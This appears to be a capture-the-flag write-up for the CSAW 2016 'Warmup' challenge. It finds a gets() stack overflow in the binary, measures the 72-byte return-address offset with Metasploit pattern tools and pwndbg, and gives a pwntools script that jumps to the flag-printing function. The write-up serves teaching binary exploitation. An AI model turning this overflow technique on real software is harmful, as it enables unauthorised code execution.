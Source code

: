 # Warmup - nightmare

```console
matan@matan:~/Documents/hacking/nightmare/stackoverflow/Csaw_2016_Quals_Warmup$ file warmup 
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=7b7d75c51503566eb1203781298d9f0355a66bd3, stripped
matan@matan:~/Documents/hacking/nightmare/stackoverflow/Csaw_2016_Quals_Warmup$ checksec --file=warmup
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols	  No	0		2		warmup

matan@matan:~/Documents/hacking/nightmare/stackoverflow/Csaw_2016_Quals_Warmup$ ./warmup as
-Warm Up-
WOW:0x40060d
>sssss

```

Lets reverse it:
```c
void FUN_0040061d(void)

{
  char local_88 [64];
  char local_48 [64];
  
  write(1,"-Warm Up-\n",10);
  write(1,&DAT_0040074c,4);
  sprintf(local_88,"%p\n",FUN_0040060d);
  write(1,local_88,9);
  write(1,&DAT_00400755,1);
  gets(local_48);
  return;
}
```
we can see that we can overflow with `gets(local_48);` and override the RIP with pointer to FUN_0040060d(function that print the flag):

let check what is the offset
option 1 - get offset using error based technique
1. create pattern
```console
usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```
2. run the program with gdb and push the payload above and finsh the program, we can see the value of RIP is ovveride
```
   0x4006a3    leave  
 ► 0x4006a4    ret    <0x6341356341346341>
```
3. lets check the offset
```console
matan@matan:~/Documents/hacking/nightmare/stackoverflow/Csaw_2016_Quals_Warmup$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 150 -q 6341356341346341
[*] Exact match at offset 72
```

option 2 - calculate ofsset:
1. enter "ABCD" to program
```
pwndbg> r
Starting program: /home/matan/Documents/hacking/nightmare/stackoverflow/Csaw_2016_Quals_Warmup/warmup 
-Warm Up-
WOW:0x40060d
>ABCD
```

2. search "ABCD" -> 0x7fffffffde80
```
pwndbg> search ABCD
[heap]          0x6022a0 0xa44434241 /* 'ABCD\n' */
libc-2.31.so    0x7ffff7f6cea1 0x4847464544434241 ('ABCDEFGH')
libc-2.31.so    0x7ffff7f7bbcc 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
libc-2.31.so    0x7ffff7f7bc6a 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
libc-2.31.so    0x7ffff7f7bcba 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
[stack]         0x7fffffffde80 0x44434241 /* 'ABCD' */
pwndbg> 
```

3. check RIP value -> 0x7fffffffdec8
```
pwndbg> retaddr 
0x7fffffffdec8 —▸ 0x7ffff7e14d0a (__libc_start_main+234) ◂— mov    edi, eax
0x7fffffffdf98 —▸ 0x400549 ◂— 0xb80000441f0f66f4
```
4. calc -> 0x7fffffffdec8 -  0x7fffffffde80 = 0x48 => `72`

Now that we know what is the offset we can create our exploit
```python
from pwn import process,packing


def exploit():
    buffer = b'A' * 72 + packing.p64(0x40060d)
    prs = process("warmup")
    prs.sendline(buffer)
    prs.interactive()

if __name__ == '__main__':
    exploit()
```
result:
```console
python warmup.py
[+] Starting local process '/home/matan/Documents/hacking/nightmare/stackoverflow/Csaw_2016_Quals_Warmup/warmup': pid 50192
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>FLAG{LET_US_BEGIN_CSAW_2016}
[*] Got EOF while reading in interactive
```



